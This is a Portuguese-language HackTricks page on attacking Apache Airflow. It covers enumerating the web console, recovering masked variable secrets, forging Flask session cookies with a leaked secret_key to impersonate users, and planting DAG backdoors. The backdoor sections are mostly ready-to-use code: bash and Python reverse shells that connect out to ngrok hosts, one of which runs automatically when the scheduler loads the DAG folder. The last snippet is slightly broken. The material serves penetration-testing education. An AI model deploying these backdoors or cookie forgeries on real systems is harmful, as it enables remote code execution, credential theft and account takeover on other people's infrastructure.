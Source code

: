 # Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) serve como uma plataforma para **orquestrar e agendar pipelines de dados ou fluxos de trabalho**. O termo "orquestração" no contexto de pipelines de dados significa o processo de organizar, coordenar e gerenciar fluxos de trabalho de dados complexos que se originam de várias fontes. O principal objetivo desses pipelines de dados orquestrados é fornecer conjuntos de dados processados e utilizáveis. Esses conjuntos de dados são amplamente utilizados por uma infinidade de aplicações, incluindo, mas não se limitando a ferramentas de inteligência de negócios, ciência de dados e modelos de aprendizado de máquina, todos os quais são fundamentais para o funcionamento de aplicações de big data.

Basicamente, o Apache Airflow permitirá que você **agende a execução de código quando algo** (evento, cron) **acontecer**.

### Local Lab

#### Docker-Compose

Você pode usar o **arquivo de configuração docker-compose de** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) para lançar um ambiente docker completo do apache airflow. (Se você estiver no MacOS, certifique-se de dar pelo menos 6GB de RAM para a VM do docker).

#### Minikube

Uma maneira fácil de **executar o apache airflow** é executá-lo **com minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configuração do Airflow

O Airflow pode armazenar **informações sensíveis** em sua configuração ou você pode encontrar configurações fracas em vigor:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC do Airflow

Antes de começar a atacar o Airflow, você deve entender **como as permissões funcionam**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Ataques

#### Enumeração do Console Web

Se você tiver **acesso ao console web**, pode ser capaz de acessar algumas ou todas as seguintes informações:

* **Variáveis** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* **Conexões** (Informações sensíveis personalizadas podem ser armazenadas aqui)
* Acesse-as em `http://<airflow>/connection/list/`
* [**Configuração**](./#airflow-configuration) (Informações sensíveis como **`secret_key`** e senhas podem ser armazenadas aqui)
* Liste **usuários e funções**
* **Código de cada DAG** (que pode conter informações interessantes)

#### Recuperar Valores de Variáveis

As variáveis podem ser armazenadas no Airflow para que os **DAGs** possam **acessar** seus valores. É semelhante a segredos de outras plataformas. Se você tiver **permissões suficientes**, pode acessá-las na GUI em `http://<airflow>/variable/list/`.\
O Airflow, por padrão, mostrará o valor da variável na GUI, no entanto, de acordo com [**isso**](https://marclamberti.com/blog/variables-with-apache-airflow/), é possível definir uma **lista de variáveis** cujo **valor** aparecerá como **asteriscos** na **GUI**.

![](<../../.gitbook/assets/image (164).png>)

No entanto, esses **valores** ainda podem ser **recuperados** via **CLI** (você precisa ter acesso ao DB), execução de **DAG** **arbitrária**, **API** acessando o endpoint de variáveis (a API precisa ser ativada) e **até mesmo a própria GUI!**\
Para acessar esses valores a partir da GUI, basta **selecionar as variáveis** que você deseja acessar e **clicar em Ações -> Exportar**.\
Outra maneira é realizar um **bruteforce** no **valor oculto** usando o **filtro de pesquisa** até obtê-lo:

![](<../../.gitbook/assets/image (152).png>)

#### Escalação de Privilégios

Se a configuração **`expose_config`** estiver definida como **True**, a partir da **função Usuário** e **acima**, pode-se **ler** a **configuração na web**. Nessa configuração, a **`secret_key`** aparece, o que significa que qualquer usuário com isso válido pode **criar seu próprio cookie assinado para se passar por qualquer outra conta de usuário**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE em trabalhador Airflow)

Se você tiver **acesso de escrita** ao local onde os **DAGs são salvos**, você pode simplesmente **criar um** que enviará para você um **reverse shell.**\
Observe que este reverse shell será executado dentro de um **container de trabalhador airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE no agendador do Airflow)

Se você definir algo para ser **executado na raiz do código**, no momento da escrita deste texto, ele será **executado pelo agendador** após alguns segundos depois de colocá-lo dentro da pasta do DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Criação de DAG

Se você conseguir **comprometer uma máquina dentro do cluster DAG**, pode criar novos **scripts de DAG** na pasta `dags/` e eles serão **replicados no restante das máquinas** dentro do cluster DAG.

#### Injeção de Código em DAG

Quando você executa um DAG pela GUI, pode **passar argumentos** para ele.\
Portanto, se o DAG não estiver devidamente codificado, ele pode ser **vulnerável a Injeção de Comando.**\
Foi isso que aconteceu neste CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tudo o que você precisa saber para **começar a procurar por injeções de comando em DAGs** é que **parâmetros** são **acessados** com o código **`dag_run.conf.get("param_name")`**.

Além disso, a mesma vulnerabilidade pode ocorrer com **variáveis** (note que com privilégios suficientes você poderia **controlar o valor das variáveis** na GUI). Variáveis são **acessadas com**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se eles forem usados, por exemplo, dentro de um comando bash, você pode realizar uma injeção de comando.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

